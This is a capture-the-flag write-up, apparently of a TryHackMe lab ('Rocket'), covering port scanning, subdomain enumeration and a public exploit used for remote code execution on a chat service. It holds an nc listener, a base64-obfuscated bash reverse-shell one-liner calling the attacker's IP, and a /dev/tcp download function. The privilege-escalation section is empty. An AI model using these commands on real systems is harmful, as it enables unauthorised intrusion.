







## TL;DR


### Recon

we start with `rustscan`, using this command:
```bash
rustscan -a $target -- -sV -sC -oN nmap.txt -oX nmap.xml
```



we can see port `22` with ssh and port `80` with apache http server
```bash
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 62 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b5:20:37:9f:99:b2:4f:23:ba:3a:43:60:b7:45:c8:62 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCvaKC59kkNsedfYjBk2qJTrzl0n5caYkdrInvhUiXV1Mbg6FvRnxcAW3p7YDhpUW1l4q77iG+F1Szdvam1xot+Cygi5uJ2WoK0zKjtXjUvNAuRAbwpd4RL1UMK35+tHSycuPE+KXirOyh/PrUf4mq3fqPz+Ou/Fr6rwqx8YqAInr91Gj3hAUO8hN6AVWBYZfF8FvQYWasgNlhK79SdhuKzsEGSOM03KAyqHeo5ujIB+orzvGBqYGOPm3wDy6FQMBrJVDHIGmpbienKM9slThwcX2kS2pk/g5mxq/ekiO/6kQSdQaW2/F3+EEjV620EAJafzzwMJJqhLnm7bsPVeK8N
|   256 12:77:83:03:1f:64:bb:40:5d:bf:2c:48:e2:5a:b5:18 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBHBpMdONFmz5LC417afrQcuPjtnNEwH+TQSXXQbIDFNPX2lPpi95fgxCMn44stPZviSan8GKrckCu1iuQ1Z9RZY=
|   256 74:7c:e6:07:78:fc:fd:45:1d:e8:2b:d5:02:66:8e:cd (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIId5VToYxC5fIQqLj4R6b8mkie8RnO5bzU+OE3REsgNt
80/tcp open  http    syn-ack ttl 62 Apache httpd 2.4.29
| http-methods: 
|_  Supported Methods: GET POST HEAD
|_http-generator: Bolt
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Home | Rocket Entertainment
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

I added `rocket.thm` to my `/etc/hosts`

### ...

When we visit the root page, we can see this Rocket Entertainment system.



I used `gobuster` to find subdomains, and found `chat.rocket.thm`:
```bash
┌──(agonen㉿kali)-[~/thm/Rocket]
└─$ gobuster vhost -u 'http://rocket.thm/' --ad -w /usr/share/SecLists/Discovery/DNS/subdomains-top1million-20000.txt --xs 302 -xl 300-400
===============================================================
Gobuster v3.8
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                       http://rocket.thm/
[+] Method:                    GET
[+] Threads:                   10
[+] Wordlist:                  /usr/share/SecLists/Discovery/DNS/subdomains-top1million-20000.txt
[+] User Agent:                gobuster/3.8
[+] Timeout:                   10s
[+] Append Domain:             true
[+] Exclude Length:            333,372,386,310,336,341,354,355,356,385,311,313,329,347,374,391,304,319,330,358,362,392,315,320,331,334,357,381,382,395,306,328,343,352,359,360,377,390,305,317,326,348,350,370,375,399,323,340,353,361,365,389,308,325,337,345,351,371,376,387,338,344,368,379,393,398,312,318,339,349,366,378,383,388,332,335,397,303,321,342,346,380,300,322,363,369,394,301,302,316,373,314,324,327,364,367,384,396,400,307,309
[+] Exclude Hostname Length:   false
===============================================================
Starting gobuster in VHOST enumeration mode
===============================================================
chat.rocket.thm Status: 200 [Size: 224515]
```



So, I added this subdomain to my `/etc/hosts`.
Then, I visited this chat, we can see this page:



I googled an exploit here [https://www.exploit-db.com/exploits/50108](https://www.exploit-db.com/exploits/50108) that gives me `RCE`. I don't know what is the exact version, let's try our luck:
```bash
python3 exploit.py -H http://chat.rocket.thm -u user@rocket.thm -a admin@rocket.thm  --ip 192.168.164.248 --port 1337
```

and set up a listener:
```bash
nc -nvlp 1337
```

After a while, we got our reverse shell:



I pasted the payload from penelope:
```bash
printf KGJhc2ggPiYgL2Rldi90Y3AvMTkyLjE2OC4xNjQuMjQ4LzQ0NDQgMD4mMSkgJg==|base64 -d|bash
```



### ...


```bash
function __curl() {
  read -r proto server path <<<"$(printf '%s' "${1//// }")"
  if [ "$proto" != "http:" ]; then
    printf >&2 "sorry, %s supports only http\n" "${FUNCNAME[0]}"
    return 1
  fi
  DOC=/${path// //}
  HOST=${server//:*}
  PORT=${server//*:}
  [ "${HOST}" = "${PORT}" ] && PORT=80

  exec 3<>"/dev/tcp/${HOST}/$PORT"
  printf 'GET %s HTTP/1.0\r\nHost: %s\r\n\r\n' "${DOC}" "${HOST}" >&3
  (while read -r line; do
   [ "$line" = $'\r' ] && break
  done && cat) <&3
  exec 3>&-
}
```



### Privilege Escalation to Root


